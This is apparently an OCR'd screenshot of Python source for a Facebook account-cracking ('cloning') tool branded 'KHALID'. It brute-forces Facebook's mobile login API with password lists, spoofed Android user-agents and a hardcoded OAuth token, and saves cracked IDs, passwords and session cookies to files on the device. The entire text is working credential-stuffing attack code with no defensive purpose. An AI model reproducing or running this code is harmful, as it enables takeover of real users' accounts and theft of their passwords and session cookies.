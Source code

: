                                 ua = '[FBAN/FB4A;FBAV/'+fbap+';FBBV/'+fbbv+';FBDM/{density=2.0,width=720,height=1280};FBLC/'+fblc+';FBCR/'+fbcr+';FBMF/Infinix;FBBD/Infinix;FBPN/com.facebook.katana;FBDV/'+model+';FBSV/'+android_version+'.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'email':ids,
                    'password':pas,
                    'cpl':'true',
                    'credentials_type':'password',
                    'error_detail_type':'button_with_disabled',
                    'source':'login',
                    'format':'json',
                    'generate_session_cookies':'1',
                    'generate_analytics_claim':'1',
                    'generate_machine_id':'1'}
                                head = {'accept-encoding': 'gzip, deflate', 
                    'Accept': '*/*', 
                    'Connection': 'keep-alive', 
                    'content-type': 'application/x-www-form-urlencoded', 
                    'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 
                    'x-fb-friendly-name': 'authenticate', 
                    'x-fb-http-engine': 'Liger',
                    'user-agent': ua}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        coki = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                                        print('\r\r\x1b[1;92m[\033[0;97mKHALID-OK\033[0;92m]\033[1;92m '+ids+' \033[1;37m|\033[1;32m '+pas+ ' '+joined(ids)+' ')
                                        open('/sdcard/KHALID-OK.txt','a').write(ids+'|'+pas+'\n')
                                        open('/sdcard/KHALID-COOKIE.txt', 'a').write(ids+'|'+pas+'|'+coki+'\n')
                                        oks.append(ids)
                                elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r\x1b[1;92m[\033[0;96mKHALID-OK\033[0;92m]\033[1;91m '+ids+' \033[1;37m|\033[1;31m '+pas+ ' '+joined(ids)+' ')
                                                twf.append(ids)
                                                break           
                                elif 'www.facebook.com' in q['error_msg']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[1;92m[\033[0;91mKHALID-CP\033[0;92m] \033[0;90m'+ids+' \033[0;97m| \033[0;90m'+pas+'\033[1;97m')
                                                open('/sdcard/KHALID-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
#_________[ METHOD RANDOM CLONING ]______>>  
def rndm(ids,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m[\x1b[38;5;208mKHALID-CRACKING\x1b[1;97m] \x1b[1;97m[\x1b[1;93m%s\x1b[1;97m] \033[1;37m[\x1b[1;92mOK ACCOUNTS\x1b[1;91m:\x1b[1;92m %s\x1b[1;97m] \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        for pas in passlist:
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))